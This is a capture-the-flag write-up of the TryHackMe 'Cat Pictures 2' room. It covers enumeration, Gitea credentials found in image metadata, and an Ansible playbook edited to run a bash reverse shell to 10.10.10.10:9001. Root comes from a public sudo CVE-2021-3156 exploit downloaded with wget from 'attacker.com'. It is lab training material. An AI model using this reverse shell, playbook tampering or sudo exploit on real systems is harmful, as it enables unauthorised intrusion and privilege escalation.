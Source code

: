 ```yaml
---
title: "TryHackMe - Cat Pictures 2"
author: Nasrallah
description: ""
date: 2023-06-13 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, sudo, cve, ansible, gitea]
img_path: /assets/img/tryhackme/catpictures2
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Cat Pictures 2](https://tryhackme.com/room/catpictures2) from [TryHackMe](https://tryhackme.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.138.150                                                                                                                     [66/78]
Host is up (0.14s latency).                                                                                                                                   
Not shown: 995 closed tcp ports (reset)                                                                                                                       
PORT     STATE SERVICE VERSION                                                                                                                                
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                                                                           
| ssh-hostkey:                                                                                                                                                
|   2048 33f0033626368c2f88952cacc3bc6465 (RSA)                                                                                                               
|   256 4ff3b3f26e0391b27cc053d5d4038846 (ECDSA)                                                                                                              
|_  256 137c478b6ff8f46b429af2d53d341352 (ED25519)                                                                                                            
80/tcp   open  http    nginx 1.4.6 (Ubuntu)                                                                                                                   
| http-git:                                                                                                                                                   
|   10.10.138.150:80/.git/                                                                                                                                    
|     Git repository found!                                                                                                                                   
|     Repository description: Unnamed repository; edit this file 'description' to name the...                                                                 
|     Remotes:                                                                                                                                                
|       https://github.com/electerious/Lychee.git                                                                                                             
|_    Project type: PHP application (guessed from .gitignore)                                                                                                 
|_http-title: Lychee                                                                                                                                          
|_http-server-header: nginx/1.4.6 (Ubuntu)                                                                                                                    
| http-robots.txt: 7 disallowed entries                                                                                                                       
|_/data/ /dist/ /docs/ /php/ /plugins/ /src/ /uploads/                                                                                                        
222/tcp  open  ssh     OpenSSH 9.0 (protocol 2.0)                                                                                                             
| ssh-hostkey:                                                                                                                                                
|   256 becb061f330f6006a05a06bf065333c0 (ECDSA)                                                                                                              
|_  256 9f0798926efd2c2db093fafee8950c37 (ED25519)
3000/tcp open  ppp?                                                                                                                                    [41/78]
| fingerprint-strings:                                                                                                                                        
|   GenericLines, Help, RTSPRequest:                                                                                                                          
|     HTTP/1.1 400 Bad Request                                                                                                                                
|     Content-Type: text/plain; charset=utf-8                                                                                                                 
|     Connection: close                                                                                                                                       
|     Request                                                                                                                                                 
|   GetRequest:                                                                                                                                               
|     HTTP/1.0 200 OK                                                          
|     Cache-Control: no-store, no-transform                               
|     Content-Type: text/html; charset=UTF-8                              
|     Set-Cookie: i_like_gitea=3e2d9c0bcdff41b1; Path=/; HttpOnly; SameSite=Lax 
|     Set-Cookie: _csrf=hEu2tGDuq6rCjpi_e-yIvaG9nio6MTY5MTgzNTI1NjI0NzA5NjMzMA; Path=/; Expires=Sun, 13 Aug 2023 10:14:16 GMT; HttpOnly; SameSite=Lax
|     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)                
|_http-title: Welcome to nginx!                                                
|_http-server-header: SimpleHTTP/0.6 Python/3.6.9
```

We found 5 open ports, two OpenSSH servers (22 and 222), and 3 web servers.

## Web

Let's check the web servers.

### Port 80

![](1.png)

This is a photo-management website hosted with `lychee`.

The log in form reveals the version

![](4.png)

This version doesn't have any vulnerabilities.

### Port 3000

![](2.png)

This is Gitea version 1.17.3, also not vulnerable.

We can see there is a user registered.

![](5.png)


### Port 8080

![](3.png)

This is the default page for nginx, nothing interesting.

Back to port 80, checking the description of the images there we find something interesting.

![](6.png)

There is a meta data in that pictures, let's download it and see what we can find.

![](7.png)

There is text file in the nginx server, let's navigate to it.

![](8.png)

We found credentials for Gitea, and also the notes informs us there is an ansible runner on port 1337.

## Gitea

Let's login to Gitea.

![](9.png)

We found a repository called ansible that has our first flag and a `playbook.yaml` file.

![](10.png)

This seems to run the command whoami as user `bismuth`

## Ansible

Let's check the Ansible runner on port 1337

![](11.png)

Here we can run an Ansible playbook, let's do it and check the logs.

![](12.png)

The playbook it run seems to be the one we found in the Gitea repository!


# **Foothold**

Let's replace the `whoami` command in `playbook.yaml` to a reverse shell.

```bash
bash -c "bash -i >& /dev/tcp/10.10.10.10/9001 0>&1"
```

![](13.png)

Let's commit the changes, setup a listener and run the playbook

![](14.png)

Great! We got the shell.

We can find a private ssh key in `bismuth`'s home directory, use it to get a better shell

# **Privilege Escalation**

Let's run `linpeas`

![](15.png)

The sudo version running on this box is vulnerable.

We can find an exploit [here](https://github.com/CptGibbon/CVE-2021-3156.git)

Let's upload the exploit, compile it and run it.

using `wget -r -np http://attacker.com/` we can download the whole directory.

![](16.png)

We got root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

